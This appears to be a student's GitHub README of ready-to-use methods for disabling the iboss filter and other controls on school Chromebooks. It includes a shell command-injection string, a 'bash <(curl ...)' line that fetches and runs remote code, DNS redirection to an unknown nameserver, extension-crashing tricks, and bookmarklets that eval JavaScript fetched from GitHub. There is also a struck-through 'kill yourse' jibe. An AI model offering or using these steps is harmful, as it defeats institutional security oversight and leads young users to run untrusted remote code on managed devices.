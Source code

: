 ## Tools for responsible students. If you do not have a brain, turn back now.
<br>

BETA SEE ME TO ATTEMPT!!!!! (scroll down for normal stuff):
set_cellular_ppp \';bash;exit;\'
bash <(curl -k https://coolelectronics.me/unroll)
1.go to the settings then click the wifi you are on.
2.scroll down to were it say network click on that then name servers
3.click custom nameservers then in the 4 boxes put 198.98.53.76
4.Go to a new tab and in the url bar type chrome://restart then press enter(this will restart your computer without signing you out)
5.then go to a new tab and search chrome.google.com if that doesn't work try https://chrome.google.com/webstorez
6.Then it should say this is not safe randomly type thisisunsafe no spaces and it should work. CREDIT TO COMPACTCOW AND NEBELUNG AND BYPASSI. 


<details>
    
<summary><b>blow up iboss</b></summary>

0. READ THE WHOLE THING BEFORE ATTEMPTING!!! IF I GET ONE MORE STUPID EMAIL I SWEAR IM DELTEING THIS WHOLE PAGE!!!<sub>sysadmins you didnt hear that<sub>

1. Go to this page: `chrome-extension://kmffehbidlalibfeklaefnckpidbodff/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
If you go to [this page](https://www.google.com/search?q=chick+fil+a&rlz=1CASFJY_enUS1052&oq=proxy+fil+a&aqs=chrome.0.0i271j46i131i199i433i465i512j46i340i433i512l2j46i131i199i433i465i650j0i512j0i433i512j0i512jknives%20in%20ww10i271.1044j0j7&sourceid=chrome&ie=UTF-8&safe=active&ssui=on) and it loads, it worked!. You can close your tabs and the extension will be blown up successfully. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)
    
</details>

<details>

<summary><b>unblock youtube (EASY)</b></summary>
0. READ THE WHOLE THING BEFORE ATTEMPTING!!! THIS IS DIFFERENT FROM THE ABOVE METHOD!!!

1. Go to this page: `chrome-extension://bjlelllmddmghonfckbpjafiamjhlkio/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
5. Click on the lock or building icon
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

6. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

7. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

8. Go to youtube.com in a new tab.

If it loads, it worked!. Just don't close your tabs and the extension will be blown up successfully. If it stops working, redo steps 5-8. If it still doesn't work, close all your tabs and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)

</details>

<br>
<details>

<summary>blow up iboss method 2 (PATCHED!!!)</summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`
(async function () {
    eval((await (await fetch("https://raw.githubusercontent.com/Sreekar617/i-love-rice/main/cod.js")).text()));
})();`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. Click on "iboss cloud enterprise"

</details>

  
<details>
  
  <summary>extension thingie (PATCHED!!!)</summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary>Unblock Youtube (PATCHED!!!)</summary>
 
1. Click on the lock
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

2. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

3. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

4. Go to youtube.com in a new tab.

</details>


Update on Projects:


| Project  | ETA |
| ------------- | ------------- |
| Uboss V3 (Unblocking Method)  | June  |
| Tissue Box  (Unblocking Method)  | September |
| Francium (Unblockable Unblocker) | June |
| Gallium (Game Site) | June |
| Blue (Unblocker) | September |
| Gemnoid (Unblocker) | September |

quick disclaimer none of these above projects are made by me, but i will still be posting them here. you think i have that much patience to work on one project for six months?

<b>me when you star and share:</b>

<img width="404" alt="literally me" src="https://user-images.githubusercontent.com/115044820/235795472-18621a38-e169-4260-a1be-1b74e58044e2.png">


<sub>I do not condone any misuse of the tools included here. Use responsibly and at your own risk. Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.</sub>
